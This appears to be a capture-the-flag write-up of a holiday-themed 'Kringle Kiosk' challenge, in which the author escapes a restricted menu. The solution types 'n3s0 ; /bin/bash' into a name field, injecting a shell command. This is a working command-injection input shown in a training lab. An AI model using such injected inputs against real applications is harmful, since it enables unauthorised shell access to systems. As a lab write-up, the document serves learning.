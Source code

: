 ```tmux
..:xkOOkdoxxkOO0OxoooooolooodxOO00Ok0kk0oc:;;;;;;;;;
....:dkOddOO0OkdoolllllloooddxOOOOOkkkkOdllccccccccc
You found her! Thank you!!!
[0] 0:bash*                                          "1e8c365d495d" 09:23 20-Dec-20
```

#### F1 - Front Lawn - Kringle Kiosk

Welcome to our castle, we're so glad to have you with us!
Come and browse the kiosk; though our app's a bit suspicious.
Poke around, try running bash, please try to come discover,
Need our devs who made our app pull/patch to help recover?

Escape the menu by launching /bin/bash

Press enter to continue...

##### Solution

The challenge starts out with a menu and a warning stating that anything other than the required input will provide an unwanted output.

```sh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 Welcome to the North Pole!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Map
2. Code of Conduct and Terms of Use
3. Directory
4. Print Name Badge
5. Exit


Please select an item from the menu by entering a single number.
Anything else might have ... unintended consequences.

Enter choice [1 - 5]
```

I have gone through the challenge and obtained the map of the castle, code of conduct terms of use, and the directory of elves. Which will come in handy. This has been provided in another version of the file. I had a hunch about the "Print Name Badge" option. Turns out that you can enter a bash shell when you enter the option and type in your name ```n3s0 ; /bin/bash```.

```sh
Enter choice [1 - 5] 4
Enter your name (Please avoid special characters, they cause some weird errors)...n3s0 ; /bin/bash
 ______
< n3s0 >
 ------
  \
   \   \_\_    _/_/
    \      \__/
           (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||

   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

Type 'exit' to return to the menu.
```
